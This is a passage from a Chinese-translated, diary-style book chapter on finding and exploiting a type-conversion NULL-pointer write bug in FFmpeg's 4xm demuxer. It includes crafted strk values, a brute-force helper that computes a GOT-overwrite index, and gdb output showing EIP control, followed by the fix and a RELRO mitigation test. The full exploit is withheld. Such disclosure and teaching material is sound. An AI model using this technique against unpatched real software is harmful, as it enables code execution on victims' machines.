




# 第四章：空指针 FTW

### 注意

*2009 年 1 月 24 日，星期六*

*亲爱的日记*，

今天我发现了一个非常漂亮的漏洞：一个类型转换漏洞，导致空指针解引用（参见附录 A.2）。在正常情况下，这不会是什么大问题，因为这个漏洞影响的是一个用户空间库，通常意味着最坏的情况是会崩溃一个用户空间应用程序。但这个漏洞与普通的用户空间空指针解引用不同，并且可以利用这个漏洞执行任意代码。

该漏洞影响了许多流行软件项目使用的 FFmpeg 多媒体库，包括 Google Chrome、VLC 媒体播放器、MPlayer 和 Xine 等。还有传言称 YouTube 使用 FFmpeg 作为后端转换软件。37

### 注意

*还有其他可利用的用户空间空指针解引用的例子。参见 Mark Dowd 的 MacGyver 漏洞利用 Flash* ([`blogs.iss.net/archive/flash.html`](http://blogs.iss.net/archive/flash.html)) *或 Justin Schuh 的 Firefox 漏洞* ([`blogs.iss.net/archive/cve-2008-0017.html`](http://blogs.iss.net/archive/cve-2008-0017.html))。

# 4.1 漏洞发现

为了找到这个漏洞，我做了以下几步：

+   第 1 步：列出 FFmpeg 的解复用器。

+   第 2 步：识别输入数据。

+   第 3 步：追踪输入数据。

## 第 1 步：列出 FFmpeg 的解复用器

在从 FFmpeg SVN 仓库获取最新源代码修订版后，我生成了一个列表，列出了包含在 FFmpeg 中的 `libavformat` 库中可用的解复用器（参见图 4-1）。我注意到 FFmpeg 将大多数解复用器分别放在目录 *libavformat/* 下的不同 C 文件中。


图 4-1. FFmpeg libavformat 解复用器

### 注意

FFmpeg 开发已转移到 Git 仓库，38，SVN 仓库不再更新。现在可以从本书的网站上下载受影响的 FFmpeg 源代码修订版（SVN-r16556）。39

## 第 2 步：识别输入数据

接下来，我试图识别解复用器处理的输入数据。在阅读源代码时，我发现大多数解复用器声明了一个名为 *`demuxername`*`_read_header()` 的函数，该函数通常接受 `AVFormatContext` 类型的参数。这个函数声明并初始化了一个看起来像这样的指针：

```
[..]
ByteIOContext *pb = s->pb;
[..]
```

许多不同的 `get_`*`something`* 函数（例如，`get_le32()`、`get_buffer()`）和特殊宏（例如，`AV_RL32`、`AV_RL16`）随后被用来提取由 `pb` 指向的数据的部分。在此阶段，我相当确信 `pb` 必须是指向正在处理的媒体文件输入数据的指针。

## 第 3 步：追踪输入数据

我决定通过在源代码级别跟踪每个解复用器的输入数据来寻找错误。我从列表中的第一个解复用器文件开始，称为*4xm.c*。在审计 4X 电影文件格式的解复用器时（^([40]))，我发现了下述列表中显示的漏洞。

**源代码文件**

*libavformat/4xm.c*

**函数**

`fourxm_read_header()`

```
[..]
 93    static int fourxm_read_header(AVFormatContext *s,
 94                                  AVFormatParameters *ap)
 95    {
 `96      ByteIOContext *pb = s->pb;`
 ..
`101      unsigned char *header;`
 ..
`103      int current_track = −1;`
 ..
`106      fourxm->track_count = 0;`
`107      fourxm->tracks = NULL;`
 ..
120       /* allocate space for the header and load the whole thing */
`121       header = av_malloc(header_size);`
122       if (!header)
123           return AVERROR(ENOMEM);
`124       if (get_buffer(pb, header, header_size) != header_size)`
125           return AVERROR(EIO);
 ..
`160      } else if (fourcc_tag == strk_TAG) {`
161          /* check that there is enough data */
162          if (size != strk_SIZE) {
163              av_free(header);
164              return AVERROR_INVALIDDATA;
165          }
`166          current_track = AV_RL32(&header[i + 8]);`
`167          if (current_track + 1 > fourxm->track_count) {`
168             fourxm->track_count = current_track + 1;
169             if((unsigned)fourxm->track_count >= UINT_MAX / sizeof(AudioTrack))
170               return −1;
`171             fourxm->tracks = av_realloc(fourxm->tracks,`
`172                 fourxm->track_count * sizeof(AudioTrack));`
173             if (!fourxm->tracks) {
174               av_free(header);
175               return AVERROR(ENOMEM);
176             }
177          }
`178          fourxm->tracks[current_track].adpcm = AV_RL32(&header[i + 12]);`
`179          fourxm->tracks[current_track].channels = AV_RL32(&header[i + 36]);`
`180          fourxm->tracks[current_track].sample_rate = AV_RL32(&header[i + 40]);`
`181          fourxm->tracks[current_track].bits = AV_RL32(&header[i + 44]);`
[..]
```

第 124 行的`get_buffer()`函数将输入数据从处理过的媒体文件复制到由`header`指向的堆缓冲区（见第 101 和 121 行）。如果媒体文件包含所谓的`strk`数据块（见第 160 行），第 166 行的`AV_RL32()`宏从头部数据中读取一个无符号整数值并将其存储在带符号整型变量`current_track`（见第 103 行）中。将媒体文件中的用户控制的无符号整数值转换为带符号整型可能会导致转换错误！我的兴趣被激发，我继续在代码中搜索，兴奋地认为自己可能找到了一些东西。

第 167 行的`if`语句检查用户控制的`current_track + 1`的值是否大于`fourxm->track_count`。带符号整型变量`fourxm->track_count`被初始化为 0（见第 106 行）。为`current_track`提供值`>= 0x80000000`会导致符号变化，使得`current_track`被解释为负数（要了解原因，请参阅第 A.3 节）。如果`current_track`被解释为负数，第 167 行的`if`语句将始终返回`false`（因为带符号整型变量`fourxm->track_count`的值为零），并且第 171 行的缓冲区分配永远不会被执行。显然，将那个用户控制的无符号整型转换为带符号整型是一个糟糕的主意。

由于`fourxm->tracks`被初始化为`NULL`（见第 107 行）且第 171 行永远不会被执行，因此第 178 至 181 行的写操作导致了四个空指针解引用。因为`NULL`是通过用户控制的`current_track`值解引用的，所以有可能在广泛的内存位置写入用户控制的数据。

### 注意

可能你不会从技术上称这为空指针的“解引用”，因为我实际上并没有解引用 NULL，而是位于从 NULL 开始的用户控制偏移量处的不存在结构。最终这取决于你如何定义术语*空指针解引用*。

FFmpeg 的预期行为如图 4-2 所示（见 ch04.html#expected_behavior_when_ffmpeg_operates_n "图 4-2. FFmpeg 正常运行时的预期行为"）如下：

1.  `fourxm->tracks`被初始化为`NULL`（见第 107 行）。

1.  如果处理过的媒体文件包含一个`strk`数据块，`current_track`的值将从数据块的用户控制数据中提取出来（见第 166 行）。

1.  如果`current_track + 1`的值大于零，则分配堆缓冲区。

1.  由`fourxm->tracks`指向的堆缓冲区被分配（见第 171 和 172 行）。

1.  媒体文件中的数据被复制到堆缓冲区，同时`current_track`被用作缓冲区中的数组索引（见第 178-181 行）。

1.  当这种行为发生时，没有安全问题。


图 4-2. FFmpeg 正常操作时的预期行为

图 4-3 展示了当此漏洞影响 FFmpeg 时会发生什么：

1.  `fourxm->tracks`使用`NULL`初始化（见第 107 行）。

1.  如果处理过的媒体文件包含`strk`块，则从块的用户控制数据中提取`current_track`的值（见第 166 行）。

1.  如果`current_track + 1`的值小于零，则堆缓冲区不会被分配。

1.  `fourxm->tracks`仍然指向内存地址`NULL`。

1.  然后使用用户控制的`current_track`值解引用该空指针，并将四个 32 位用户控制的数据字节分配给解引用的位置（见第 178-181 行）。

1.  可以用四个用户控制的字节覆盖四个用户控制的内存位置。


图 4-3. FFmpeg 导致内存损坏的意外行为

多么漂亮的漏洞啊！

# 4.2 漏洞利用

为了利用这个漏洞，我做了以下操作：

### 注意

*该漏洞影响 FFmpeg 支持的所有操作系统平台。我在本章中使用的平台是 Ubuntu Linux 9.04（32 位）的默认安装*。

+   第 1 步：找到一个具有有效`strk`块的 4X 电影文件样本。

+   第 2 步：了解`strk`块的布局。

+   第 3 步：操纵`strk`块以使 FFmpeg 崩溃。

+   第 4 步：操纵`strk`块以控制`EIP`。

利用文件格式漏洞有不同的方法。我可以从头开始创建一个具有正确格式的文件，或者修改一个现有的文件。我选择了后者。我使用网站[`samples.mplayerhq.hu/`](http://samples.mplayerhq.hu/)找到一个适合测试此漏洞的 4X 电影文件。我自己也可以构建一个文件，但下载一个现成的文件既快又简单。

## 第 1 步：找到一个具有有效 strk 块的 4X 电影文件样本

我使用以下方法从[`samples.mplayerhq.hu/`](http://samples.mplayerhq.hu/)获取样本文件。

```
linux$ `wget -q http://samples.mplayerhq.hu/ga`
`me-formats/4xm/`
                     → `TimeGatep01s01n01a02_2.4xm`
```

下载文件后，我将它重命名为*original.4xm*。

## 第 2 步：了解 strk 块的布局

根据 4X 电影文件格式描述，`strk`块具有以下结构：

```
bytes 0-3    fourcc: 'strk'
bytes 4-7    length of strk structure (40 or 0x28 bytes)
bytes 8-11   track number
bytes 12-15  audio type: 0 = PCM, 1 = 4X IMA ADPCM
bytes 16-35  unknown
bytes 36-39  number of audio channels
bytes 40-43  audio sample rate
bytes 44-47  audio sample resolution (8 or 16 bits)
```

下载的样本文件的`strk`块从文件偏移`0x1a6`开始，如图图 4-4 所示：


图 4-4. 从我下载的 4X 电影样本文件中提取的`strk`数据块。图中显示的数字在表 4-1 中有引用。

表 4-1 描述了图 4-4 中展示的`strk`数据块的布局。图 4-4。

表 4-1. 表 4-1. 图 4-4 中展示的 strk 数据块布局。图 4-4

| 参考 | 头部偏移量 | 描述 |
| --- | --- | --- |
| (1) | `&header[i]` | `fourcc: 'strk'` |
| (2) | `&header[i+4]` | `strk`结构体的长度（`0x28`字节） |
| (3) | `&header[i+8]` | `轨道号`（这是 FFmpeg 源代码中的`current_track`变量） |
| (4) | `&header[i+12]` | `音频类型`（这是写入第一个解引用内存位置的值） |

为了利用这个漏洞，我知道我需要设置`&header[i+8]`（对应于 FFmpeg 源代码中的`current_track`）处的`轨道号`值以及`&header[i+12]`处的`音频类型`值。如果设置正确，`音频类型`的值将被写入内存位置`NULL + track number`，这等同于`NULL + current_track`。

总结来说，来自 FFmpeg 源代码的（几乎）任意内存写入操作如下：

```
[..]
178       fourxm->tracks[current_track].adpcm = AV_RL32(&header[i + 12]);
179       fourxm->tracks[current_track].channels = AV_RL32(&header[i + 36]);
180       fourxm->tracks[current_track].sample_rate = AV_RL32(&header[i + 40]);
181       fourxm->tracks[current_track].bits = AV_RL32(&header[i + 44]);
[..]
```

并且每个都对应以下伪代码：

```
NULL[user_controlled_value].offset = user_controlled_data;
```

## 第 3 步：操纵 strk 数据块以使 FFmpeg 崩溃

### 注意

*编译 FFmpeg：linux$ ./configure; make 这些命令将编译 FFmpeg 的两个不同版本的二进制文件*：

+   ffmpeg *不带调试符号的二进制文件*

+   ffmpeg_g *带有调试符号的二进制文件*

在编译了有漏洞的 FFmpeg 源代码修订版 16556 之后，我尝试将 4X 电影转换为 AVI 文件，以验证编译是否成功以及 FFmpeg 是否工作正常。

```
linux$ `./ffmpeg_g -i original.4xm original.avi`
FFmpeg version SVN-r16556, Copyright (c) 2000-2009 Fabrice Bellard, et al.
  configuration:
  libavutil     49.12\. 0 / 49.12\. 0
  libavcodec    52.10\. 0 / 52.10\. 0
  libavformat   52.23\. 1 / 52.23\. 1
  libavdevice   52\. 1\. 0 / 52\. 1\. 0
  built on Jan 24 2009 02:30:50, gcc: 4.3.3
Input #0, 4xm, from 'original.4xm':
  Duration: 00:00:13.20, start: 0.000000, bitrate: 704 kb/s
    Stream #0.0: Video: 4xm, rgb565, 640x480, 15.00 tb(r)
    Stream #0.1: Audio: pcm_s16le, 22050 Hz, stereo, s16, 705 kb/s
Output #0, avi, to 'original.avi':
    Stream #0.0: Video: mpeg4, yuv420p, 640x480, q=2-31, 200 kb/s, 15.00 tb(c)
    Stream #0.1: Audio: mp2, 22050 Hz, stereo, s16, 64 kb/s
Stream mapping:
  Stream #0.0 -> #0.0
  Stream #0.1 -> #0.1
Press [q] to stop encoding
frame=   47 fps=  0 q=2.3 Lsize=     194kB time=3.08 bitrate= 515.3kbits/s
video:158kB audio:24kB global headers:0kB muxing overhead 6.715897%
```

接下来，我修改了样本文件中`strk`数据块的`轨道号`以及`音频类型`的值。

如图 4-5 所示，我将`轨道号`的值更改为`0xaaaaaaaa`（1）并将`音频类型`的值更改为`0xbbbbbbbb`（2）。我将新文件命名为*poc1.4xm*并尝试使用 FFmpeg 进行转换（有关以下调试命令的描述，请参阅 B.4 节）。


图 4-5. 在我修改后，样本文件的 `strk` 块。我做的更改被突出显示并框出，上面显示的数字在上面的文本中有所引用。

```
linux$ `gdb ./ffmpeg_g`
GNU gdb 6.8-debian
Copyright (C) 2008 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu"...

(gdb) `set disassembly-flavor intel`

(gdb) `run -i poc1.4xm`
Starting program: /home/tk/BHD/ffmpeg/ffmpeg_g -i poc1.4xm
FFmpeg version SVN-r16556, Copyright (c) 2000-2009 Fabrice Bellard, et al.
  configuration:
  libavutil     49.12\. 0 / 49.12\. 0
  libavcodec    52.10\. 0 / 52.10\. 0
  libavformat   52.23\. 1 / 52.23\. 1
  libavdevice   52\. 1\. 0 / 52\. 1\. 0
  built on Jan 24 2009 02:30:50, gcc: 4.3.3

`Program received signal SIGSEGV, Segmentation fault.`
`0x0809c89d in fourxm_read_header (s=0x8913330,`
 `ap=0xbf8b6c24) at libavformat/4xm.c:178`
`178     fourxm->tracks[current_track].adpcm = AV_RL32(&header[i + 12]);`
```

如预期，FFmpeg 在源代码的第 178 行处崩溃，并产生段错误。我进一步在调试器中分析了 FFmpeg 进程，以查看导致崩溃的确切原因。

```
(gdb) `info registers`
`eax            0xbbbbbbbb`    −1145324613
ecx            0x891c400     143770624
edx            0x0           0
`ebx            0xaaaaaaaa`    −1431655766
esp            0xbf8b6aa0    0xbf8b6aa0
ebp            0x55555548    0x55555548
esi            0x891c3c0     143770560
edi            0x891c340     143770432
eip            0x809c89d     0x809c89d <fourxm_read_header+509>
eflags         0x10207       [ CF PF IF RF ]
cs             0x73          115
ss             0x7b          123
ds             0x7b          123
es             0x7b          123
fs             0x0           0
gs             0x33          51
```

在崩溃发生时，寄存器 `EAX` 和 `EBX` 中填充了我为 `audio type` (`0xbbbbbbbb`) 和 `track number` (`0xaaaaaaaa`) 输入的值。接下来，我要求调试器显示 FFmpeg 执行的最后一个指令：

```
(gdb) `x/1i $eip`
0x809c89d <fourxm_read_header+509>:    mov    DWORD PTR [edx+ebp*1+0x10],eax
```

如调试器输出所示，导致段错误的指令试图使用我为 `track number` 提供的值计算出的地址写入值 `0xbbbbbbbb`。

为了控制内存写入，我需要知道写入操作的目标地址是如何计算的。我通过查看以下汇编代码找到了答案：

```
(gdb) `x/7i $eip - 21`
0x809c888 <fourxm_read_header+488>:    lea    ebp,[ebx+ebx*4]
0x809c88b <fourxm_read_header+491>:    mov    eax,DWORD PTR [esp+0x34]
0x809c88f <fourxm_read_header+495>:    mov    edx,DWORD PTR [esi+0x10]
0x809c892 <fourxm_read_header+498>:    mov    DWORD PTR [esp+0x28],ebp
0x809c896 <fourxm_read_header+502>:    shl    ebp,0x2
0x809c899 <fourxm_read_header+505>:    mov    eax,DWORD PTR [ecx+eax*1+0xc]
0x809c89d <fourxm_read_header+509>:    mov    DWORD PTR [edx+ebp*1+0x10],eax
```

这些指令对应于以下 C 源代码行：

```
[..]
178       fourxm->tracks[current_track].adpcm = AV_RL32(&header[i + 12]);
[..]
```

表 4-2 解释了这些指令的结果。

由于 `EBX` 包含我为 `current_track` 提供的值，而 `EDX` 包含 `fourxm->tracks` 的空指针，因此计算可以表示为以下内容：

```
edx + ((ebx + ebx * 4) << 2) + 0x10 = destination address of the write operation
```

表 4-2. 汇编指令列表及其结果

| 指令 | 结果 |
| --- | --- |
| `lea ebp,[ebx+ebx*4]` | `ebp = ebx + ebx * 4`（`EBX` 寄存器包含用户定义的 `current_track` 的值 (`0xaaaaaaaa`)。） |
| `mov eax,DWORD PTR [esp+0x34]` | `eax` = 数组索引 `i` |
| `mov edx,DWORD PTR [esi+0x10]` | `edx = fourxm->tracks` |
| `shl ebp,0x2` | `ebp = ebp << 2` |
| `mov eax,DWORD PTR [ecx+eax*1+0xc]` | `eax = AV_RL32(&header[i + 12]);` 或 `eax = ecx[eax + 0xc];` |
| `mov DWORD PTR [edx+ebp*1+0x10],eax` | `fourxm->tracks[current_track].adpcm = eax;` 或 `edx[ebp + 0x10] = eax;` |

或者以更简化的形式：

```
edx + (ebx * 20) + 0x10 = destination address of the write operation
```

我为 `current_track` (`EBX` 寄存器) 提供了 `0xaaaaaaaa` 的值，所以计算应该如下所示：

```
NULL + (0xaaaaaaaa * 20) + 0x10 = 0x55555558
```

可以通过调试器确认 `0x55555558` 的结果：

```
(gdb) `x/1x $edx+$ebp+0x10`
0x55555558:    Cannot access memory at address 0x55555558
```

## 第 4 步：操纵 strk 块以控制 EIP

该漏洞使我能够用任何 4 字节值覆盖几乎任意的内存地址。为了控制 FFmpeg 的执行流程，我必须覆盖一个允许我控制 `EIP` 寄存器的内存位置。我必须找到一个稳定的地址，一个在 FFmpeg 地址空间内可预测的地址。这排除了所有进程的栈地址。但 Linux 使用的 *可执行和链接格式* (*ELF*) 提供了一个几乎完美的目标：*全局偏移表* (*GOT*)。FFmpeg 中使用的每个库函数在 GOT 中都有一个引用。通过操作 GOT 条目，我可以轻松地控制执行流程（见第 A.4 节）。GOT 的好处是它是可预测的，这正是我所需要的。我可以通过覆盖在漏洞发生后调用的库函数的 GOT 条目来控制 `EIP`。

那么，在任意内存写入之后调用的是哪个库函数？为了回答这个问题，我再次查看了源代码：

**源代码文件**

*libavformat/4xm.c*

**函数**

`fourxm_read_header()`

```
[..]
184         /* allocate a new AVStream */
`185         st = av_new_stream(s, current_track);`
[..]
```

在四次内存写入操作之后，使用函数 `av_new_stream()` 分配了一个新的 `AVStream`。

**源代码文件**

*libavformat/utils.c*

**函数**

`av_new_stream()`

```
[..]
`2271    AVStream *av_new_stream(AVFormatContext *s, int id)`
2272    {
2273        AVStream *st;
2274        int i;
2275
2276        if (s->nb_streams >= MAX_STREAMS)
2277            return NULL;
2278
`2279        st = av_mallocz(sizeof(AVStream));`
[..]
```

在第 2279 行调用了另一个名为 `av_mallocz()` 的函数。

**源代码文件**

*libavutil/mem.c*

**函数**

`av_mallocz()` 和 `av_malloc()`

```
[..]
`43    void *av_malloc(unsigned int size)`
44    {
45        void *ptr = NULL;
46    #ifdef CONFIG_MEMALIGN_HACK
47        long diff;
48    #endif
49
50        /* let's disallow possible ambiguous cases */
51        if(size > (INT_MAX-16) )
52            return NULL;
53
54    #ifdef CONFIG_MEMALIGN_HACK
55        ptr = malloc(size+16);
56        if(!ptr)
57            return ptr;
58        diff= ((-(long)ptr - 1)&15) + 1;
59        ptr = (char*)ptr + diff;
60        ((char*)ptr)[-1]= diff;
61    #elif defined (HAVE_POSIX_MEMALIGN)
62        posix_memalign(&ptr,16,size);
63    #elif defined (HAVE_MEMALIGN)
`64        ptr = memalign(16,size);`
[..]
`135    void *av_mallocz(unsigned int size)`
136    {
`137        void *ptr = av_malloc(size);`
138        if (ptr)
139            memset(ptr, 0, size);
140        return ptr;
141    }
[..]
```

在第 137 行调用了函数 `av_malloc()`，并在第 64 行调用了 `memalign()`（在 Ubuntu Linux 9.04 平台上使用其他 `ifdef` 的情况——第 54 行和第 61 行——未定义）。当我看到 `memalign()` 时，我非常兴奋，因为它正是我所寻找的：一个在漏洞发生后直接调用的库函数（见 图 4-6 的调用图")）。



图 4-6. 从易受攻击的函数到 `memalign()` 的调用图

这让我产生了下一个问题：FFmpeg 中 `memalign()` 的 GOT 条目的地址是什么？

我通过 `objdump` 获取了以下信息：

```
linux$ `objdump -R ffmpeg_g | grep memalign`
08560204 R_386_JUMP_SLOT   posix_memalign
```

因此，我需要覆盖的地址是 `0x08560204`。我只需要计算 `track number` (`current_track`) 的适当值。我可以通过两种方式获得这个值：我可以尝试计算它，或者我可以使用暴力搜索。我选择了简单的方法，并编写了以下程序：

示例 4-1. 使用暴力搜索找到 `current_track` 的适当值的小助手程序 (*addr_brute_force.c*)

```
01    #include <stdio.h>
02
03    // GOT entry address of memalign()
04    #define MEMALIGN_GOT_ADDR       0x08560204
05
06    // Min and max value for 'current_track'
07    #define SEARCH_START            0x80000000
08    #define SEARCH_END              0xFFFFFFFF
09
10    int
11    main (void)
12    {
13           unsigned int  a, b    = 0;
14
15           for (a = SEARCH_START; a < SEARCH_END; a++) {
16                   b = (a * 20) + 0x10;
17                   if (b == MEMALIGN_GOT_ADDR) {
18                         printf ("Value for 'current_track': %08x\n", a);
19                         return 0;
20                   }
21           }
22
23           printf ("No valid value for 'current_track' found.\n");
24
25           return 1;
26    }
```

示例 4-1 中展示的程序使用暴力搜索找到一个合适的`track number`（`current_track`）值，这是覆盖第 4 行定义的（GOT）地址所需的。这是通过尝试所有可能的`current_track`值，直到计算结果（参见第 16 行）与搜索的`memalign()` GOT 条目地址匹配（参见第 17 行）来完成的。为了触发漏洞，`current_track`必须解释为负值，因此只有`0x80000000`到`0xffffffff`范围内的值被考虑（参见第 15 行）。

示例：

```
linux$ `gcc -o addr_brute_force addr_brute_force.c`
linux$ `./addr_brute_force`
Value for 'current_track': 8d378019
```

我随后调整了样本文件，并将其重命名为*poc2.4xm*。

我唯一更改的是`track number`的值（参见图 4-7 中的（1））。现在它匹配了我那个小助手程序生成的值。



图 4-7. 调整了`track number`（current_track）后的*poc2.4xm*的`strk` chunk

我随后在调试器中测试了新的概念验证文件（有关以下调试器命令的描述，请参阅 B.4 节）。

```
linux$ `gdb -q ./ffmpeg_g`

(gdb) `run -i poc2.4xm`
Starting program: /home/tk/BHD/ffmpeg/ffmpeg_g -i poc2.4xm
FFmpeg version SVN-r16556, Copyright (c) 2000-2009 Fabrice Bellard, et al.
  configuration:
  libavutil     49.12\. 0 / 49.12\. 0
  libavcodec    52.10\. 0 / 52.10\. 0
  libavformat   52.23\. 1 / 52.23\. 1
  libavdevice   52\. 1\. 0 / 52\. 1\. 0
  built on Jan 24 2009 02:30:50, gcc: 4.3.3

Program received signal SIGSEGV, Segmentation fault.
`0xbbbbbbbb in ?? ()`

(gdb) `info registers`
eax            0xbfc1ddd0    −1077813808
ecx            0x9f69400     167154688
edx            0x9f60330     167117616
ebx            0x0           0
esp            0xbfc1ddac    0xbfc1ddac
ebp            0x85601f4     0x85601f4
esi            0x164         356
edi            0x9f60330     167117616
`eip            0xbbbbbbbb    0xbbbbbbbb`
eflags         0x10293       [ CF AF SF IF RF ]
cs             0x73          115
ss             0x7b          123
ds             0x7b          123
es             0x7b          123
fs             0x0           0
gs             0x33          51
```

Bingo！完全控制`EIP`。在我控制了指令指针之后，我为该漏洞开发了一个漏洞利用程序。我使用 VLC 媒体播放器作为注入向量，因为它使用了有漏洞的 FFmpeg 版本。

正如我在前面的章节中提到的，德国的法律不允许我提供完整的漏洞利用程序，但您可以在本书的网站上观看我录制的一段简短视频，展示漏洞在实际操作中的效果。41]

图 4-8 总结了用于利用漏洞的步骤。图中展示了该漏洞的解剖结构：

1.  在使用`current_track`作为索引时计算内存写入的地址（`NULL` + `current_track` + 偏移量）。`current_track`的值来自 4xm 媒体文件的用户控制数据。

1.  内存写入的源数据来自媒体文件的用户控制数据。

1.  用户控制的数据被复制到`memalign()` GOT 条目的内存位置。



图 4-8. 我利用 FFmpeg 漏洞的示意图

# 4.3 漏洞修复

### 注意

*星期二，2009 年 1 月 27 日*

在我将该漏洞告知 FFmpeg 维护者之后，他们开发了以下补丁。42]

```
--- a/libavformat/4xm.c
+++ b/libavformat/4xm.c
@@ −166,12 +166,13 @@ static int fourxm_read_header(AVFormatContext *s,
                 goto fail;
             }
             current_track = AV_RL32(&header[i + 8]);
`+            if((unsigned)current_track >= UINT_MAX / sizeof(AudioTrack) - 1){`
`+                av_log(s, AV_LOG_ERROR, "current_track too large\n");`
`+                ret= −1;`
`+                goto fail;`
`+            }`
             if (current_track + 1 > fourxm->track_count) {
                 fourxm->track_count = current_track + 1;
`-                if((unsigned)fourxm->track_count >= UINT_MAX / sizeof(AudioTrack)){`
`-                    ret= −1;`
`-                    goto fail;`
`-                }`
                 fourxm->tracks = av_realloc(fourxm->tracks,
                     fourxm->track_count * sizeof(AudioTrack));
                 if (!fourxm->tracks) {
```

该补丁应用了一个新的长度检查，将`current_track`的最大值限制为`0x09249247`。

```
(UINT_MAX   / sizeof(AudioTrack) - 1) - 1 = maximum allowed value for current_track
(0xffffffff / 0x1c               - 1) - 1 = 0x09249247
```

当补丁到位时，`current_track` 不能变为负数，漏洞确实得到了修复。

此补丁消除了源代码级别的漏洞。还有一个通用的漏洞缓解技术，这将使利用该漏洞变得更加困难。为了控制执行流程，我必须覆盖一个内存位置以控制 `EIP`。在这个例子中，我使用了 GOT 条目。*RELRO* 缓解技术有一个名为 *Full RELRO* 的操作模式，该模式将 GOT 映射为只读，从而使得无法使用描述的 GOT 覆写技术来控制 FFmpeg 的执行流程。然而，其他不受 RELRO 缓解的技术仍然允许控制 `EIP`。

### 注意

*有关 RELRO 缓解技术的更多信息，请参见第 C.2 节*。

要使用 Full RELRO 缓解技术，FFmpeg 二进制文件需要重新编译，并添加以下链接器选项：`-Wl,-z,relro,-z,now`。

使用 Full RELRO 支持重新编译 FFmpeg 的示例：

```
linux$ `./configure --extra-ldflags="-Wl,-z,relro,-z,now"`
linux$ `make`
```

获取 `memalign()` 的 GOT 条目：

```
linux$ `objdump -R ./ffmpeg_g | grep memalign`
0855ffd0 R_386_JUMP_SLOT   posix_memalign
```

调整 示例 4-1 并使用暴力破解获取 `current_track` 的值：

```
linux$ `./addr_brute_force`
Value for 'current_track': 806ab330
```

创建一个新的概念验证文件（*poc_relro.4xm*）并在调试器中测试它（有关以下调试器命令的描述，请参见第 B.4 节）：

```
linux$ `gdb -q ./ffmpeg_g`

(gdb) `set disassembly-flavor intel`

(gdb) `run -i poc_relro.4xm`
Starting program: /home/tk/BHD/ffmpeg_relro/ffmpeg_g -i poc_relro.4xm
FFmpeg version SVN-r16556, Copyright (c) 2000-2009 Fabrice Bellard, et al.
  configuration: --extra-ldflags=-Wl,-z,relro,-z,now
  libavutil     49.12\. 0 / 49.12\. 0
  libavcodec    52.10\. 0 / 52.10\. 0
  libavformat   52.23\. 1 / 52.23\. 1
  libavdevice   52\. 1\. 0 / 52\. 1\. 0
  built on Jan 24 2009 09:07:58, gcc: 4.3.3

Program received signal SIGSEGV, Segmentation fault.
0x0809c89d in fourxm_read_header (s=0xa836330, ap=0xbfb19674) at libavformat/4xm.c:178
178     fourxm->tracks[current_track].adpcm = AV_RL32(&header[i + 12]);
```

在尝试解析损坏的媒体文件时，FFmpeg 再次崩溃。为了查看导致崩溃的确切原因，我要求调试器显示 FFmpeg 当前寄存器的值以及最后执行的指令：

```
(gdb) `info registers`
eax            0xbbbbbbbb    −1145324613
ecx            0xa83f3e0     176419808
edx            0x0           0
ebx            0x806ab330    −2140490960
esp            0xbfb194f0    0xbfb194f0
ebp            0x855ffc0     0x855ffc0
esi            0xa83f3a0     176419744
edi            0xa83f330     176419632
eip            0x809c89d     0x809c89d <fourxm_read_header+509>
eflags         0x10206       [ PF IF RF ]
cs             0x73          115
ss             0x7b          123
ds             0x7b          123
es             0x7b          123
fs             0x0           0
gs             0x33          51

(gdb) `x/1i $eip`
0x809c89d <fourxm_read_header+509>:    mov    DWORD PTR [edx+ebp*1+0x10],eax
```

我还显示了 FFmpeg 尝试存储 `EAX` 值的地址：

```
(gdb) `x/1x $edx+$ebp+0x10`
0x855ffd0 <_GLOBAL_OFFSET_TABLE_+528>:    0xb7dd4d40
```

如预期的那样，FFmpeg 尝试将 `EAX` 的值写入 `memalign()` 的 GOT 条目的提供地址（`0x855ffd0`）。

```
(gdb) `shell cat /proc/$(pidof ffmpeg_g)/maps`
08048000-0855f000 r-xp 00000000 08:01 101582     /home/tk/BHD/ffmpeg_relro/ffmpeg_g
`0855f000-08560000 r--p 00516000 08:01 101582     /home/tk/BHD/ffmpeg_relro/ffmpeg_g`
08560000-0856c000 rw-p 00517000 08:01 101582     /home/tk/BHD/ffmpeg_relro/ffmpeg_g
0856c000-0888c000 rw-p 0856c000 00:00 0
0a834000-0a855000 rw-p 0a834000 00:00 0          [heap]
b7d60000-b7d61000 rw-p b7d60000 00:00 0
b7d61000-b7ebd000 r-xp 00000000 08:01 148202     /lib/tls/i686/cmov/libc-2.9.so
b7ebd000-b7ebe000 ---p 0015c000 08:01 148202     /lib/tls/i686/cmov/libc-2.9.so
b7ebe000-b7ec0000 r--p 0015c000 08:01 148202     /lib/tls/i686/cmov/libc-2.9.so
b7ec0000-b7ec1000 rw-p 0015e000 08:01 148202     /lib/tls/i686/cmov/libc-2.9.so
b7ec1000-b7ec5000 rw-p b7ec1000 00:00 0
b7ec5000-b7ec7000 r-xp 00000000 08:01 148208     /lib/tls/i686/cmov/libdl-2.9.so
b7ec7000-b7ec8000 r--p 00001000 08:01 148208     /lib/tls/i686/cmov/libdl-2.9.so
b7ec8000-b7ec9000 rw-p 00002000 08:01 148208     /lib/tls/i686/cmov/libdl-2.9.so
b7ec9000-b7eed000 r-xp 00000000 08:01 148210     /lib/tls/i686/cmov/libm-2.9.so
b7eed000-b7eee000 r--p 00023000 08:01 148210     /lib/tls/i686/cmov/libm-2.9.so
